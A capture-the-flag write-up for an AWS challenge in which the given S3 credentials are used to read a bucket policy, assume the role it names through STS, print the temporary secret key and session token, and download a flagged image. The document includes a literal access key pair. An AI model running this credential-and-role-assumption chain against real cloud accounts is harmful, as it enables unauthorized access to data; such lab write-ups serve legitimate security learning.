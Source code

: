 # Cats in the Bucket
## Description
There is a bucket full of cat images. One of them contains a flag. Go get it!

Bucket: cats-in-a-bucket

Access Key ID: AKIATZ2X44NMCEQW46PL

Secret Access Key: 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

## Solution

Don't even ask. I'm not well versed in AWS and did it googling a lot. So I'm writing this down just so I can come back copy something when I need it.

```bash
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
export AWS_ACCESS_KEY_ID=AKIATZ2X44NMCEQW46PL
export AWS_SECRET_ACCESS_KEY=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

role=$(aws s3api get-bucket-policy --bucket cats-in-a-bucket | \
       jq '.Policy' | \
       tr -d '\\' | \
       sed 's/^"//g;s/"$//g' | \
       jq -r '.Statement[] | select(.Resource == "arn:aws:s3:::cats-in-a-bucket/cat4.jpg") | .Principal.AWS')

output=$(aws sts assume-role --role-arn $role --role-session-name "MySession");
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' <<< $output);
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretAccessKey' <<< $output);
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' <<< $output); 
echo $AWS_SECRET_ACCESS_KEY,$AWS_SESSION_TOKEN,$AWS_ACCESS_KEY_ID;
aws sts get-caller-identity;
aws s3 cp s3://cats-in-a-bucket/cat4.jpg cat4.jpg
```

The flag was written in the image.

